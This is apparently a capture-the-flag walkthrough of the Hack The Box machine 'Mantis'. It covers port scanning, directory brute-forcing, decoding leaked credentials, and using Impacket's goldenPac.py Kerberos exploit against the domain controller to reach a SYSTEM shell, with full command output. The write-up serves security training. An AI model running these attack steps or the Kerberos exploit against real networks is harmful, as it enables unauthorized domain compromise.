

---
search:
  exclude: true
---
# Mantis Writeup

## Introduction :

Mantis is a hard windows box released back in September 2017.

## **Part 1 : Initial Enumeration**

As always we start with nmap to scan for open ports, using the flags **-sC** for default scripts, and **-sV** to enumerate versions.
    
    
    [ 10.10.14.17/23 ] [ /dev/pts/3 ] [~]
    → nmap -sCV 10.10.10.52
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-25 17:06 BST
    Nmap scan report for 10.10.10.52
    Host is up (0.57s latency).
    Not shown: 984 closed ports
    PORT      STATE SERVICE      VERSION
    88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-08-25 14:10:56Z)
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  tcpwrapped
    3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
    3269/tcp  open  tcpwrapped
    49152/tcp open  msrpc        Microsoft Windows RPC
    49153/tcp open  msrpc        Microsoft Windows RPC
    49154/tcp open  msrpc        Microsoft Windows RPC
    49155/tcp open  msrpc        Microsoft Windows RPC
    49157/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
    49158/tcp open  msrpc        Microsoft Windows RPC
    Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    |_clock-skew: mean: -36m00s, deviation: 2h18m34s, median: -1h56m01s
    | smb-os-discovery:
    |   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
    |   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
    |   Computer name: mantis
    |   NetBIOS computer name: MANTIS\x00
    |   Domain name: htb.local
    |   Forest name: htb.local
    |   FQDN: mantis.htb.local
    |_  System time: 2020-08-25T10:11:51-04:00
    | smb-security-mode:
    |   account_used: <****blank>
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: required
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled and required
    | smb2-time:
    |   date: 2020-08-25T14:11:53
    |_  start_date: 2020-08-25T14:10:13
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 191.16 seconds

## **Part 2 : Getting User Access**

This box is one example of a machine that has alot of ports opened, and yet these are not enough. you need to enumerate every port on this machine using nmap's -p- flag:
    
    
    [ 10.10.14.7/23 ] [ /dev/pts/8 ] [~]
    → nmap -p- 10.10.10.52
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-02 19:57 GMT
    Nmap scan report for 10.10.10.52
    Host is up (0.037s latency).
    Not shown: 65509 closed ports
    PORT      STATE SERVICE
    53/tcp    open  domain
    88/tcp    open  kerberos-sec
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    389/tcp   open  ldap
    445/tcp   open  microsoft-ds
    464/tcp   open  kpasswd5
    593/tcp   open  http-rpc-epmap
    636/tcp   open  ldapssl
    **1337/tcp open waste**
    1433/tcp  open  ms-sql-s
    3268/tcp  open  globalcatLDAP
    3269/tcp  open  globalcatLDAPssl
    5722/tcp  open  msdfsr
    8080/tcp  open  http-proxy
    9389/tcp  open  adws
    49152/tcp open  unknown
    49153/tcp open  unknown
    49154/tcp open  unknown
    49155/tcp open  unknown
    49157/tcp open  unknown
    49158/tcp open  unknown
    49172/tcp open  unknown
    50255/tcp open  unknown
    57110/tcp open  unknown
    57114/tcp open  unknown
    
    Nmap done: 1 IP address (1 host up) scanned in 32.05 seconds
    

And here you see the port that we missed earlier: 1337:

So let's enumerate it with gobuster and a wordlist from seclists:
    
    
    [ 10.10.14.7/23 ] [ /dev/pts/7 ] [~]
    → sudo apt install seclists gobuster -y
    
    [ 10.10.14.7/23 ] [ /dev/pts/6 ] [~]
    → gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.52:1337/
    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url: http://10.10.10.52:1337/
    [+] Threads: 10
    [+] Wordlist: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
    [+] Status codes: 200,204,301,302,307,401,403
    [+] User Agent: gobuster/3.0.1
    [+] Timeout: 10s
    ===============================================================
    2021/01/02 20:09:19 Starting gobuster
    ===============================================================
    /secure_notes (Status: 301)
    Progress: 145379 / 220561 (65.91%)^C
    [!] Keyboard interrupt detected, terminating.
    ===============================================================
    2021/01/02 20:18:25 Finished
    ===============================================================
    

And here we found the /secure_notes directory:

Let's see what's in dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt:
    
    
    [ 10.10.14.7/23 ] [ /dev/pts/7 ] [~]
    → curl http://10.10.10.52:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt
    1. Download OrchardCMS
    2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
    3. Launch IIS and add new website and point to Orchard CMS folder location.
    4. Launch browser and navigate to http://localhost:8080
    5. Set admin password and configure sQL server connection string.
    6. Add blog pages with admin user.
    
    Credentials stored in secure format
    OrchardCMS admin creadentials 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
    SQL Server sa credentials file namez%
    

Now here we have a bit to talk about, first of all the string of text in the note name:
    
    
    [ 10.10.14.7/23 ] [ /dev/pts/7 ] [~]
    → echo NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx | base64 -d
    6d2424716c5f53405f504073735730726421
    
    
    

And here we get a hex string (0-9-a-f) so let's convert it back to ascii: 
    
    
    [ 10.10.14.7/23 ] [ /dev/pts/7 ] [~]
    → echo 6d2424716c5f53405f504073735730726421 | xxd -r -p
    m$$ql_S@_P@ssW0rd!
    
    

And here we have a sql password! 

And that binary string gives us the following password: @dm!n_P@ssW0rd! 
    
    
    @dm!n_P@ssW0rd!
    m$$ql_S@_P@ssW0rd!
    
    

The next part of this box is on port 8080 which is a blog:

    
    
    [ 10.10.14.7/23 ] [ /dev/pts/9 ] [~]
    → curl 10.10.10.52:8080 2>/dev/null | grep Powered
        
    
    Powered by [Orchard](http://www.orchardproject.net) (C) The Theme Machine 2021.
    
    
    

Let's try to find the administrator page of this Orchard website using gobuster:
    
    
    [ 10.10.14.7/23 ] [ /dev/pts/9 ] [~]
    → gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.52:8080
    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url:            http://10.10.10.52:8080
    [+] Threads:        10
    [+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
    [+] Status codes:   200,204,301,302,307,401,403
    [+] User Agent:     gobuster/3.0.1
    [+] Timeout:        10s
    ===============================================================
    2021/01/02 20:47:55 Starting gobuster
    ===============================================================
    /archive (Status: 200)
    /blogs (Status: 200)
    **/admin (Status: 302)**
    /tags (Status: 200)
    /Archive (Status: 200)
    /pollArchive (Status: 200)
    /Blogs (Status: 200)
    /newsarchive (Status: 200)
    /news_archive (Status: 200)
    
    

Let's investigate the /admin page with the credentials (admin:@dm!n_P@ssW0rd!) we found earlier:

And we're logged in as admin!

However this is kind of a rabbithole, therefore you see why this can be a hard box, The next step is to poke around port 1433
    
    
    [ 10.10.14.7/23 ] [ /dev/pts/9 ] [~]
    → sudo apt install dbeaver -y
    
    

`    

And here we have found the user james' credentials:
    
    
    james@htb.local
    J@m3s_P@ssW0rd!
    
    

## **Part 3 : Getting Root Access**

Now in order to gain root access on the box we're going to use psexec:
    
    
    [ 10.10.14.7/23 ] [ /dev/pts/9 ] [~]
    → locate goldenPac.py
    /usr/share/doc/python3-impacket/examples/goldenPac.py
    
    [ 10.10.14.7/23 ] [ /dev/pts/9 ] [~]
    → cd /usr/share/doc/python3-impacket/examples/
    
    [ 10.10.14.7/23 ] [ /dev/pts/9 ] [doc/python3-impacket/examples]
    → python3 goldenPac.py -dc-ip 10.10.10.52 -target-ip 10.10.10.52 htb.local/james@mantis.htb.local
    Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
    
    Password:
    [*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
    
    

Once you have pasted in jame's password, wait a bit for impacket to do it's magic, and you will get root shell on the box :
    
    
    [ 10.10.14.7/23 ] [ /dev/pts/9 ] [doc/python3-impacket/examples]
    → python3 goldenPac.py -dc-ip 10.10.10.52 -target-ip 10.10.10.52 htb.local/james@mantis.htb.local
    Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
    
    Password:
    [*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
    
    [-] Couldn't get forest info ([Errno Connection error (htb.local:445)] timed out), continuing
    [*] Attacking domain controller 10.10.10.52
    [*] 10.10.10.52 found vulnerable!
    [*] Requesting shares on 10.10.10.52.....
    [*] Found writable share ADMIN$
    [*] Uploading file cviDLGQS.exe
    [*] Opening SVCManager on 10.10.10.52.....
    [*] Creating service dqDR on 10.10.10.52.....
    [*] Starting service dqDR.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Windows\system32>
    C:\Windows\system32>whoami
    nt authority\system
    
    

From here type both flags:
    
    
    C:\Windows\system32>type  C:\Users\james\Desktop\user.txt
    8aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    
    
    C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
    20XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And there you have it!

## **Conclusion**

Here we can see the progress graph :

